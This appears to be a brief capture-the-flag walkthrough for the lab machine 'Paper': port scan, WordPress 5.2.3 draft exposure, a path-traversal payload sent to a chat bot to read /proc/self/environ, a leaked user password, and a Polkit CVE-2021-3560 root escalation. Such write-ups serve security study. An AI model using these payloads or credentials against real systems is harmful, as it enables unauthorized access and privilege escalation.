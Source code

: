 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Paper
# 25/3/2023
10.10.11.143

----------------------------------------------------
# nmap
----------------------------------------------------
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)

----------------------------------------------------
# burp
----------------------------------------------------
on http header found office.paper
└─$ sudo nano /etc/hosts            
on office.paper wp is running 5.2.3 version

----------------------------------------------------
# exploit 
----------------------------------------------------
└─$ searchsploit wordpress 5.2.3
office.paper/?static=1


we got http://chat.office.paper/register/8qozr226AhkCHZdyY

now dm to the bot after sign in
recyclops file test.txt


recyclops file ../../../../../../proc/self/environ

we got 
dwight:Queenofblad3s!23

try to ssh it we got user shell

----------------------------------------------------
# after running linpease there is cve
----------------------------------------------------
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh
[dwight@paper ~]$ ./expl -p=root
try multiple times
su - secnigma
root
sudo bash